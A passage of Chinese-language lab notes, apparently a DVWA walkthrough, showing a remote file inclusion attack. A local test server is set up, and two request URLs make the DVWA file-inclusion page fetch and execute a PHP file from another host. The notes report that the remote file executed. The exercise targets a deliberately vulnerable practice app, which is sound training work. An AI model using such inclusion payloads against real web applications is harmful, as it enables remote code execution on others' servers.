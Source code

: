 用 http-server 在 Host machine 建立測試用的 server，這是要給 DVWA container 戳的

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2040.png)

```markdown
http://localhost:8086/vulnerabilities/fi/?page=http://192.168.0.196:8080/yo.php
```

or

```markdown
http://localhost:8086/vulnerabilities/fi/?page=http://host.docker.internal:8080/yo.php
```

可以看到左上角顯示了 yo，代表有成功執行檔案

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2041.png)
